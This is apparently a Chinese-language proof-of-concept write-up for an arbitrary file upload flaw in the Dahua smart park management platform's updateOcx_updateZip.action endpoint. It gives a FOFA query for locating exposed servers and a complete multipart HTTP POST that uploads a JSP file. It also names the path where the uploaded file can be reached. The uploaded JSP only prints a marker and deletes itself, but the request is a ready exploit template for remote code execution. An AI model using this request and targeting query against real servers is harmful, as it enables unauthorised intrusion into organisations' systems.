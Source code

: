 # 大华智慧园区系统updateOcx_updateZip.action存在任意文件上传漏洞

大华智慧园区系统updateOcx_updateZip.action存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
app="dahua-智慧园区综合管理平台"
```

## poc

```java
POST /portal/updateOcx_updateZip.action HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 431
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=9aa1b50e33144fb18837cc97ed863df7

--9aa1b50e33144fb18837cc97ed863df7
Content-Disposition: form-data; name="updateBean.compressFileName"

KgJrYe.jsp
--9aa1b50e33144fb18837cc97ed863df7
Content-Disposition: form-data; name="updateBean.compress"; filename="KgJrYe.jsp"
Content-Type: text/plain

<% out.println(32461+18843+"eiaDXmEZEvlnjVVz");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--9aa1b50e33144fb18837cc97ed863df7-
```

文件地址  20240801102132 文件上传时间戳

`http://xx.xx.xx.xx/portal/ocx/20240801102132/KgJrYe.jsp`